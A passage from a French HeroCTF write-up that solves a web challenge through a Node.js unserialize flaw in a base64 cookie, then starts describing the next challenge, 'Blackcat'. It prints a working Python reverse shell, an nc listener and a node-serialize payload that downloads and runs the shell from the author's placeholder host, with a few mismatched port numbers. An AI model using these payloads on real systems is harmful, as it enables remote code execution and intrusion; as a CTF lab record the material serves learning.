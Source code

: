 On est toujours redirigés vers myform, c'est chiant, donc je veux supprimer mon cookie de session, au lieu de ça, je tombe sur un cookie completedForm qui contient nos données en base64 ! Par exemple: ``eyJlbWFpbCI6Im9raWRhYyIsInN0YXR1cyI6InN0dWRlbnQifQ`` pour ``{"email":"okidac","status":"student"}``
Dans les headers des réponses HTTP, on peut voir: ``X-Powered-By: Express``
Très intéressant !! Ca sent la vuln unserialize à plein nez ! Je vous laisse dork pour trouver des documentations / explications sur la vuln en tant que telle.

Je dork rapidement pour trouver un POC fonctionnel et je l'adapte à nos données. Je vais devoir faire un reverse shell, ou une exfiltration de données. Je choisis le reverse shell.

Premièrement je créé un fichier shell.py sur mon serveur, contenant:
```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("MONIP",1339))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]);
```
Ensuite j'ouvre un serveur http simple avec python pour pouvoir le télécharger avec ma victime: 
``python3 -m http.server 1338``
Je lance également une écoute sur le port 1339 pour recevoir le shell:
``nc -lvp 1338``
Plus qu'à faire une payload qui va dans /tmp, télécharge mon reverse shell et l'exécute:
``{"status":"okidac","email":"_$$ND_FUNC$$_function (){require('child_process').exec('cd /tmp; wget http://MONIP:1337/shell.py; python3 shell.py', function(error, stdout, stderr){});}()"}``
Je la mets en base64 et en cookie et je prie pour que python3 soit installé, sinon plus qu'à trouver un autre moyen ou lancer un binaire:
Ma payload en base 64: ``eyJzdGF0dXMiOiJva2lkYWMiLCJlbWFpbCI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbiAoKXtyZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlYygnY2QgL3RtcDsgd2dldCBodHRwOi8vTU9JUDoxMzM3L3NoZWxsLnB5OyBweXRob24zIHNoZWxsLnB5JywgZnVuY3Rpb24oZXJyb3IsIHN0ZG91dCwgc3RkZXJyKXt9KTt9KCkifQ==``

On actualise et tada ! ``Connection from 139-177-182-251.ip.linodeusercontent.com 57220 received!``

Plus qu'à cat /flag.txt => Hero{uns3r14l1z3_sh0uld_n3v3r_b3_trust3d}

## Blackcat

**Description**: You have heard about a new event that will take place in a secret location. At this event, there doesn't seem to be any legal conferences, and it seems to gather black hat. Find a way to get the location of this conference before the deadline.
**URL**: [https://blackcat.web.heroctf.fr](https://blackcat.web.heroctf.fr)
**Auteur** : *Worty*

Voilà on arrive sur les challenges qui m'ont fait rager. Blackcat mérite amplement sa place dans cette catégorie.

On a un site visuellement incroyable, mais à la limite on s'en fiche. Tout de suite on regarde le code source HTML pour lire ce qui se passe. On voit que finalement il n'y a pas grand chose, sauf une interaction avec un endpoint. Elle renvoie une erreur "Missing parameters", alors qu'en soit en utilisation normale via le front end ça devrait fonctionner ??
